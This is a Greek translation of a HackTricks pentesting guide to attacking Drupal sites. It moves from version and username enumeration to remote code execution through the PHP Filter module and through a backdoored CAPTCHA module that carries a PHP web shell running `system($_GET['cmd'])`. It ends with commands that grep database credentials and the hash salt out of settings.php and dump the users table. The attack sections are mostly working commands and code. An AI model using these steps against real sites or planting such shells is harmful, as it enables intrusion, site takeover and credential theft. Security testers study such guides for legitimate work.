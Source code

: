 # Drupal

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team AWS του HackTricks)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Ανακάλυψη

* Ελέγξτε το **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Κόμβος**: Το Drupal **ευρετηριάζει το περιεχόμενό του χρησιμοποιώντας κόμβους**. Ένας κόμβος μπορεί να **περιέχει οτιδήποτε** όπως μια ανάρτηση σε ιστολόγιο, δημοσκόπηση, άρθρο, κλπ. Οι URI των σελίδων είναι συνήθως της μορφής `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Απαρίθμηση

Το Drupal υποστηρίζει **τρία είδη χρηστών** από προεπιλογή:

1. **`Διαχειριστής`**: Αυτός ο χρήστης έχει πλήρη έλεγχο στην ιστοσελίδα του Drupal.
2. **`Εξουσιοδοτημένος Χρήστης`**: Αυτοί οι χρήστες μπορούν να συνδεθούν στην ιστοσελίδα και να εκτελέσουν λειτουργίες όπως προσθήκη και επεξεργασία άρθρων βάσει των δικαιωμάτων τους.
3. **`Ανώνυμος`**: Όλοι οι επισκέπτες της ιστοσελίδας θεωρούνται ανώνυμοι. Από προεπιλογή, αυτοί οι χρήστες επιτρέπεται μόνο να διαβάζουν αναρτήσεις.

### Έκδοση

* Ελέγξτε το `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Οι νεότερες εγκαταστάσεις του Drupal από προεπιλογή αποκλείουν την πρόσβαση στα αρχεία `CHANGELOG.txt` και `README.txt`.
{% endhint %}

### Απαρίθμηση ονομάτων χρηστών

#### Εγγραφή

Στο _/user/register_ απλά προσπαθήστε να δημιουργήσετε ένα όνομα χρήστη και αν το όνομα είναι ήδη κατειλημμένο θα ειδοποιηθείτε:

![](<../../.gitbook/assets/image (325).png>)

#### Αίτηση νέου κωδικού πρόσβασης

Εάν ζητήσετε ένα νέο κωδικό για ένα υπάρχον όνομα χρήστη:

![](<../../.gitbook/assets/image (900).png>)

Εάν ζητήσετε ένα νέο κωδικό για ένα μη υπάρχον όνομα χρήστη:

![](<../../.gitbook/assets/image (304).png>)

### Λήψη αριθμού χρηστών

Με την πρόσβαση στο _/user/\<number>_ μπορείτε να δείτε τον αριθμό των υπαρχόντων χρηστών, σε αυτήν την περίπτωση είναι 2 καθώς το _/users/3_ επιστρέφει σφάλμα μη εύρεσης:

![](<../../.gitbook/assets/image (330).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Κρυφές σελίδες

**Αναζητήστε `/node/$` όπου `$` είναι ένας αριθμός** (από 1 έως 500 για παράδειγμα).\
Μπορείτε να βρείτε **κρυφές σελίδες** (δοκιμή, ανάπτυξη) οι οποίες δεν αναφέρονται από τις μηχανές αναζήτησης.

#### Πληροφορίες εγκατεστημένων ενοτήτων
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Αυτόματο
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Με το Πρόσθετο PHP Filter

{% hint style="warning" %}
Σε παλαιότερες εκδόσεις του Drupal **(πριν την έκδοση 8)**, ήταν δυνατό να συνδεθείτε ως διαχειριστής και **ενεργοποιήσετε το πρόσθετο `PHP filter`**, το οποίο "Επιτρέπει την αξιολόγηση ενσωματωμένου κώδικα PHP/αποσπασμάτων."
{% endhint %}

Χρειάζεστε το **πρόσθετο php να είναι εγκατεστημένο** (ελέγξτε τον έλεγχο πρόσβασης στο _/modules/php_ και αν επιστρέφει **403** τότε, **υπάρχει**, αν **δεν βρέθηκε**, τότε το **πρόσθετο php δεν είναι εγκατεστημένο**)

Πηγαίνετε σε _Πρόσθετα_ -> (**Ελέγξτε**) _PHP Filter_ -> _Αποθηκεύστε τη διαμόρφωση_

![](<../../.gitbook/assets/image (247) (1).png>)

Στη συνέχεια κάντε κλικ στο _Προσθήκη περιεχομένου_ -> Επιλέξτε _Βασική Σελίδα_ ή _Άρθρο_ -> Γράψτε _κώδικα κέλυφους php στο σώμα_ -> Επιλέξτε _Κώδικα PHP_ στη _Μορφή κειμένου_ -> Επιλέξτε _Προεπισκόπηση_

![](<../../.gitbook/assets/image (335).png>)

Τέλος, απλά αποκτήστε πρόσβαση στο νεοδημιουργημένο κόμβο:
```bash
curl http://drupal-site.local/node/3
```
### Εγκατάσταση του Πρόσθετου PHP Filter

Από την έκδοση **8 και μετά, το** [**PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **δεν εγκαθίσταται από προεπιλογή**. Για να εκμεταλλευτούμε αυτήν τη λειτουργία, θα πρέπει **να εγκαταστήσουμε το πρόσθετο μόνοι μας**.

1. Κατεβάστε την πιο πρόσφατη έκδοση του πρόσθετου από την ιστοσελίδα του Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Αφού γίνει η λήψη, πηγαίνετε σε **`Διαχείριση`** > **`Αναφορές`** > **`Διαθέσιμες ενημερώσεις`**.
3. Κάντε κλικ στο **`Περιήγηση`**, επιλέξτε το αρχείο από τον κατάλογο που το κατεβάσατε, και στη συνέχεια κάντε κλικ στο **`Εγκατάσταση`**.
4. Αφού εγκατασταθεί το πρόσθετο, μπορούμε να κάνουμε κλικ στο **`Περιεχόμενο`** και **να δημιουργήσουμε μια νέα βασική σελίδα**, παρόμοια με τον τρόπο που κάναμε στο παράδειγμα του Drupal 7. Ξανά, βεβαιωθείτε ότι **επιλέγετε `Κώδικα PHP` από την αναπτυσσόμενη λίστα `Μορφοποίηση κειμένου`**.

### Πρόσθετο με Παρασκευασμένη Πίσω Πόρτα

Ένα πρόσθετο με παρασκευασμένη πίσω πόρτα μπορεί να δημιουργηθεί **προσθέτοντας ένα shell σε ένα υπάρχον πρόσθετο**. Τα πρόσθετα μπορούν να βρεθούν στην ιστοσελίδα drupal.org. Ας επιλέξουμε ένα πρόσθετο όπως το [CAPTCHA](https://www.drupal.org/project/captcha). Κύλισε προς τα κάτω και αντέγραψε τον σύνδεσμο για το tar.gz [αρχείο](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Κατέβασε το αρχείο και εξάγετε το περιεχόμενό του.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Δημιουργήστε ένα **PHP web shell** με τα παρακάτω περιεχόμενα:
```php
<?php
system($_GET["cmd"]);
?>
```
* Επόμενο, πρέπει να δημιουργήσουμε ένα αρχείο **`.htaccess`** για να δώσουμε πρόσβαση στον φάκελο. Αυτό είναι απαραίτητο επειδή το Drupal αρνείται την άμεση πρόσβαση στον φάκελο **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Η διαμόρφωση παραπάνω θα εφαρμόσει κανόνες για τον φάκελο / όταν ζητάμε ένα αρχείο στο /modules. Αντιγράψτε και τα δύο αρχεία στον φάκελο captcha και δημιουργήστε ένα αρχείο αρχειοθέτησης.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Υποθέτοντας ότι έχουμε **διαχειριστική πρόσβαση** στον ιστότοπο, κάντε κλικ στο **`Διαχείριση`** και στη συνέχεια στο **`Επέκταση`** στην πλαϊνή μπάρα πλοήγησης. Στη συνέχεια, κάντε κλικ στο κουμπί **`+ Εγκατάσταση νέου πρόσθετου`**, και θα μεταφερθούμε στη σελίδα εγκατάστασης, όπως το `http://drupal-site.local/admin/modules/install`. Περιηγηθείτε στο αρχείο Captcha με backdoor και κάντε κλικ στο **`Εγκατάσταση`**.
* Μόλις η εγκατάσταση επιτύχει, περιηγηθείτε στο **`/modules/captcha/shell.php`** για να εκτελέσετε εντολές.

## Μετά την Εκμετάλλευση

### Διαβάστε το settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Αδειάστε τους χρήστες από τη βάση δεδομένων
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Αναφορές

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
